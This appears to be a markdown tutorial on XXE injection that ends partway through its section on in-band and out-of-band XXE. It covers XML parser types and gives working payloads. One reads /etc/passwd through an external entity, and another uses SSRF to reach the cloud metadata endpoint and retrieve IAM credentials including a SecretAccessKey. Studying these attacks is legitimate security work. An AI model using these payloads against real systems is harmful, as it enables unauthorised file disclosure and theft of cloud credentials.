 XML parsing is the process by which an XML file is read, and its information is accessed and manipulated by a software program. XML parsers convert data from XML format into a structure that a program can use (like a DOM tree). During this process, parsers may validate XML data against a schema or a DTD, ensuring the structure conforms to certain rules.
### Common XML Parsers

Several XML parsers are used across different programming environments; each parser may handle XML data differently, which can affect vulnerability to XXE injection.

- **DOM (Document Object Model) Parser**: This method builds the entire XML document into a memory-based tfree structure, allowing random access to all parts of the document. It is resource-intensive but very flexible.
- **SAX (Simple API for XML) Parser**: Parses XML data sequentially without loading the whole document into memory, making it suitable for large XML files. However, it is less flexible for accessing XML data randomly.
- **StAX (Streaming API for XML) Parser**: Similar to SAX, StAX parses XML documents in a streaming fashion but gives the programmer more control over the XML parsing process.
- **XPath Parser**: Parses an XML document based on expression and is used extensively in conjunction with XSLT.

###  Exploiting XXE to retrieve files

how to do it :
- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.



what payload will look like:
```XXE
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```


### Exploiting XXE to perform SSRF attacks


it use the same way of file but it will be like this :
```XXE
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "`http://169.254.169.254/`"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```
and if it work it will show error , and you should add `latest` and do it everytime until it will be like this
`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`

then This should return JSON containing the `SecretAccessKey`.
### In-Band vs Out-of-Band XXE

In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.
